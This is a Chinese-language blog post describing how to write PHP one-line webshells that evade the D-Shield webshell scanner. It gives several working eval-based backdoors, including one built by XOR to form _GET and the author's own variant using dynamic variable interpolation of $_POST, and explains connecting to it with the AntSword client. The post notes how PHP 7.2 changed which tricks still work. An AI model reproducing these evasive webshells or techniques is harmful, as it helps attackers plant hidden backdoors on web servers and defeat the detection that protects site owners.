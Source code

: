 ### 前言

最近看到安全客一位老哥写了一篇关于bypass d盾一句话木马查杀的技巧，正好最近自己也想研究研究bypass 各大webshell查杀工具，于是就借着老哥的技巧自己拓展了一下。也算是有点小成果，特此记录一下。

### 0x01

在研究的过程中，相对于其他的webshell查杀工具，d盾的规则还是挺严格的，感觉d盾的策略侧重于关注eval,assert这些危险的语言结构或者函数，只要是发现危险函数中出现变量，不管它有没有识别出这个变量的值，先给你报警再说。。。宁可错杀一千也不放过一个，简直太狠了（而且d盾不像安全狗那样注重于正则匹配各种可能的危险调用，就死盯着这些危险函数的参数，所以有的文章说以安全狗为代表的一些查杀工具关注的是“形”，比较容易绕过，只要用各种动态函数调用、异或、无字符一句话、回调函数啥的就可以绕过，而d盾则是关注的危险函数的参数，一旦参数他不能百分百确定没问题，那就报警）

```php
<?php
$a = 123;
eval($a);
>
```

![](images/d.png)

就这么个东西都要一级警告...

我不太熟悉d盾的自动查杀，不知道会不会查杀一级警告的文件，我想应该不会这么残忍，其实把一个一句话弄成一级告警还是挺简单的，例如下面这个：

```php
<?php
$a = "_GE";
$b = "T";
$c = $a.$b;
$d = $$c['a'];
eval($d);
```

![](images/shell2.png)

当然了，一级是不能满足我们的需要的，我们需要木马彻底隐藏，在测试过程中了解到，d盾在发现危险函数，并且这个函数的参数是一个变量的话，那么基本就会告警，但是如果我们输入的危险函数的参数**看起来**是一个常量呢？安全客那位老哥给出的一种策略是：

```php
<?php
    $a = "~+d()"^"!{+{}";
    $b = ${$a}[a];
    eval("n".$b);
?>
```

其中用到了异或构造`_GET`,然后关键处用一个字符拼接了我们从get传来的数据，从而让d盾误以为eval的参数是一个字符串，实现了绕过。那有没有其他方法呢？我这里发现了一个更牛掰的：

```php
<?php
$x = "_POST";
$a = "${${'_POST'}['b']}";
eval("{$$a['a']}");
?>
```

我这个一句话，主要是利用了php中动态变量解析（不知道是不是这么叫），就是双引号是可以包裹的字符串，如果其中有变量，那么是会自动进行解析的，当然，除此之外我还稍稍对敏感的_POST稍微坐了一下处理，绕了几个圈～d盾查杀效果如下：


![](images/shell_mine.png)

通过post传b=x&a=xxxx即可连接shell.

![](images/res.png)

虽然需要传递两个参数，但是用蚁剑连接还是很方便的，只需要多配置一个http body就行：

![](images/ant1.png)

![](images/ant2.png)

![](images/ant3.png)


### 0x02

在本次学习过程中，了解到php 7.2不能动态调用assert函数，也就是下面这种形式不能用了：

```php
$a = 'assert'
$$a('phpinfo();');
```

也就导致了以前很多的免杀一句话在php7.2版本就直接报错了，而且eval不是函数，只是一种语言结构，更是不支持动态函数调用了。所以，未来的d盾免杀，我们只能在eval参数上下功夫了（当然，可能还有一些特殊函数没有提到），当然，对于`_GET`以及`_POST`的隐藏还是必须的工序～



### 0x03

安全客老哥的文章：

https://www.anquanke.com/post/id/193787